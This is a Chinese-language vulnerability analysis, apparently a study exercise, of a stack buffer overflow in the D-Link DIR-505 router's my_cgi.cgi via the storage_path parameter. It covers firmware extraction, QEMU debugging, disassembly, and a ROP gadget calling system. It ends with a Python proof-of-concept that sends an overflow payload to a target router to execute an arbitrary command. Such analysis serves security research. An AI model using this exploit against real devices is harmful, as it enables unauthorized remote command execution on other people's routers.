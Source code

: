 # 一：固件分析
## 固件下载
```
ftp://ftp2.dlink.com/PRODUCTS/DIR-505/REVA/DIR505_FIRMWARE_1.08B10.ZIP

```
## 漏洞描述



## 漏洞的成因分析
### 1:定位漏洞文件
```
//切换到固件根目录
find ./ -name '*.cgi'  //随后找到漏洞文件my_cgi.cgi
```
### 2:定位漏洞位置
#### 根据漏洞描述，my_cgi.cgi在处理storage_path的时候出现了问题，我们采用搜串的方法找到storage_path，之后交叉引用查看所有引用位置。结果发现存在八处位置对其进行了引用，当然可以一个个去看，这里建议可以使用Ghidra进行反编译查看，肯能会加快分析的速度。第二种方法就是书中说的，用猜的，get_input_entries这个函数名结合漏洞描述，确实很值得怀疑。下面先用Ghidra简单的看下。
![DIR645](DIR505_get_input_entries.png)

#### 使用书中的脚本文件验证猜测
```
#!/bin/bash
# run_cgi.sh
INPUT=`python -c "print 'storage_path='+'B'*477472+'A'*4"`
LEN=$(echo -n "$INPUT" | wc -c)
echo $LEN
PORT="1234"
cp $(which qemu-mips-static) ./qemu
echo "$INPUT" | chroot ./ ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="multipart/form-data" -E SCRIPT_NAME="common" -E REQUEST_METHOD="POST" -E REQUEST_URI="/my_cgi.cgi" -g $PORT ./usr/bin/my_cgi.cgi
echo 'run ok'
rm -f ./qemu
```
需要注意的就是my_cgi.cgi使用的是大端序，所以我们在复制qemu的时候要选用大端文件。对于书中描述的SCRIPT_NAME不能为HNAP1和CONTENT_TYPE不能为multipart/form-data的说明一知半解，但是通过动态调试证实确实如此，在main函数中分别有对其的判断，如果是这两个值将不会对storage_path做出内存拷贝的行为，自然就不会有越界的漏洞出现。

#### 具体分析get_input_entries函数
综上所述，我们已经了解到漏洞函数是get_input_entries，首先我们先分析下此函数的参数是什么？下面是main函数调用get_input_entries的位置：
```
.text:0040A60C                 addiu   $s0, $sp, 0x749A0+var_74948
.text:0040A610                 la      $t9, memset
.text:0040A614                 li      $a2, 0x7490A     # n
.text:0040A61C                 move    $a0, $s0         # s
.text:0040A620                 jalr    $t9 ; memset
.text:0040A624                 move    $a1, $zero       # c
.text:0040A628                 lw      $gp, 0x749A0+var_74988($sp)
.text:0040A62C                 move    $a0, $s0         # pbuffer
.text:0040A630                 la      $t9, get_input_entries
.text:0040A634                 nop
.text:0040A638                 jalr    $t9 ; get_input_entries
.text:0040A63C                 move    $a1, $s2

```
从这段代码可以看出先使用memset初始化了一个指定大小的堆栈空间（应该是个局部变量数组），之后将其作为第一个参数传入函数get_input_entries，至于第二个参数是什么，我是采用调试的方法得到其就是我们传入的storage_path的长度，这里漏洞成因就初步展现了，由于这个空间是指定大小0x7490A，而storage_path是利用者可控的，如果将storage_path中的内容全部转存到堆栈空间中就有可能会导致访问越界。

## 漏洞利用
本次采用的漏洞利用方式依然是System/Exec，这里程序由于使用的是字节转储到堆栈中的方式，而其转储的长度是指定的CONTENT_LENTH,所以不用担心0x00造成的截断，构造ROP的时候直接在主模块查找即可。
### 构造ROP
在主模块搜索对system函数的调用，发现00405B1C处符合从堆栈中取值并随后调用system函数的gadgets。
```
.text:00405B1C                 la      $t9, system
.text:00405B20                 la      $s1, 0x440000
.text:00405B24                 jalr    $t9 ; system
.text:00405B28                 addiu   $a0, $sp, 0x78+var_50  # command
```
最终确定ROP链调用如下：

![DIR645](DIR-505_ROP.png)

### 最终POC
```
#!/usr/bin/env python
import sys
import urllib2
try:
    target=sys.argv[1]
    command=sys.argv[2]
except:
    print "Usage:%s<target><command>" % sys.argv[0]
    sys.exit(1)
url="http://%s/my_cgi.cgi" % target
buf="storage_path="
buf+="D"*477472
buf+="\x00\x40\x5b\x1c"
buf+="E"*0x28
buf+=command
buf+="\x00"
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read()

```
### 测试
本次由于在模拟路由器运行的时候，firmadyne给出的网关始终登不上去，所以本次测试未果，但是大致的漏洞原理我们已经掌握！

